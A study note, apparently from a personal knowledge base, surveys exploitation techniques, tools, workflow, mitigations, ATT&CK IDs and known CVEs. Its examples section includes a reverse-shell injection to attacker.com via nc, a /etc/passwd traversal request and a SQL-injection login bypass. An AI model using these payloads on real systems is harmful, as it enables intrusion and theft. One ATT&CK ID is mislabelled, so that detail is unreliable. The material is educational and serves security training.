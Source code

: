**Exploitation techniques** are methods used to abuse software vulnerabilities or misconfigurations to **gain unauthorized access**, **elevate privileges**, or **execute code** on target systems. These techniques are commonly used in **penetration testing**, **CTFs**, **red teaming**, and **adversary emulation**.

---

## 🎯 Exploitation Goals

- Achieve **remote or local code execution**
- Gain **initial access** or **privilege escalation**
- Perform **lateral movement** or **post-exploitation**
- Bypass **security controls** (DEP, ASLR, AV)
- Deliver **payloads** (e.g., reverse shells, Meterpreter)

> Exploitation bridges the gap between **vulnerability discovery** and **system compromise**.

---

## 🧱 Common Exploitation Categories

| Category               | Description                                         |
|------------------------|-----------------------------------------------------|
| **Memory Corruption**   | Overwriting memory structures (stack, heap)         |
| **Input Injection**     | Unsanitized input leads to code execution           |
| **Authentication Bypass** | Logic flaws in auth systems                      |
| **Command Injection**   | Execution of system commands via user input         |
| **File Upload Bypass**  | Uploading malicious files to gain code execution    |
| **Deserialization Attacks** | Abusing object deserialization                 |
| **Race Conditions**     | Exploit timing flaws in system or application logic |
| **Misconfiguration Exploits** | Default creds, open ports, insecure settings |

---

## 🔧 Core Techniques & Examples

### 🔓 Buffer Overflow
```c
char buffer[64];
gets(buffer); // No bounds check = exploit
```

- Overwrite return address, redirect execution to shellcode

### 📜 SQL Injection
```
SELECT * FROM users WHERE name = '$user_input';
```

- Inject `admin' --` to bypass authentication

### 🐚 Command Injection
```
ping $user_input
```

- Inject `; nc attacker.com 4444 -e /bin/sh`

### 📂 Directory Traversal
```
GET /download?file=../../../../etc/passwd
```

- Access restricted files on server

## 🛠 Exploitation Tools

|Tool|Use Case|
|---|---|
|**Metasploit**|Exploit delivery and payload management|
|**Exploit-DB**|Database of public exploits|
|**Searchsploit**|Offline Exploit-DB search|
|**Burp Suite**|Web app testing and injection|
|**pwntools**|Python library for pwn scripting|
|**Impacket**|SMB, NTLM relay, lateral movement|
|**Fuzzers**|Discover unknown vulnerabilities|
|**GDB + pwndbg**|Debugging and exploit development|

---

## 🧠 Exploit Staging Workflow

1. **Recon & Enumeration**
2. **Identify vulnerability**
3. **Create PoC** (proof of concept)
4. **Develop exploit logic**
5. **Bypass protections** (ASLR, DEP, etc.)
6. **Deliver payload**
7. **Post-exploitation** (e.g., privilege escalation)

---

## 🛡 Exploitation Mitigations

|Defense|Prevents / Reduces Risk|
|---|---|
|**DEP/NX**|Blocks code execution in data segments|
|**ASLR**|Randomizes memory layout|
|**Stack Canaries**|Detects stack overflows|
|**Input Validation**|Blocks injections and XSS/SQLi|
|**Privilege Separation**|Limits impact of exploited services|
|**Patching**|Closes known vulnerabilities|

---

## 🔍 Exploitation in MITRE ATT&CK

|Technique ID|Technique|
|---|---|
|`T1203`|Exploitation for Client Execution|
|`T1068`|Exploitation for Privilege Escalation|
|`T1210`|Exploitation of Remote Services|
|`T1499`|Exploit Public-Facing Application|
|`T1055`|Process Injection|

---

## 📘 Real-World Examples

|Exploit/CVE|Description|
|---|---|
|**CVE-2017-0144**|EternalBlue (SMBv1 RCE)|
|**CVE-2021-44228**|Log4Shell (JNDI injection)|
|**CVE-2019-0708**|BlueKeep (RDP remote code execution)|
|**CVE-2020-1472**|Zerologon (Netlogon flaw)|

---

## 🔗 Related Topics

- [[Exploit Development]]
- [[Metasploit Framework]]
- [[Payload Creation with msfvenom]]
- [[Reverse Engineering]]
- [[Memory Corruption]]
- [[Static vs Dynamic Analysis]]
- [[Vulnerability Scanning]]

---

## 🏷 Suggested Tags

#exploitation #exploit_dev #buffer_overflow #vulnerability #red_team #mitre_attack #ctf #payloads

---

## ✅ To Do

-  Practice exploiting stack overflows in a lab
-  Build custom payload using `msfvenom` and deliver via exploit
-  Test known CVE against a vulnerable VM (e.g., Metasploitable)
-  Analyze exploit chain and build detection for SIEM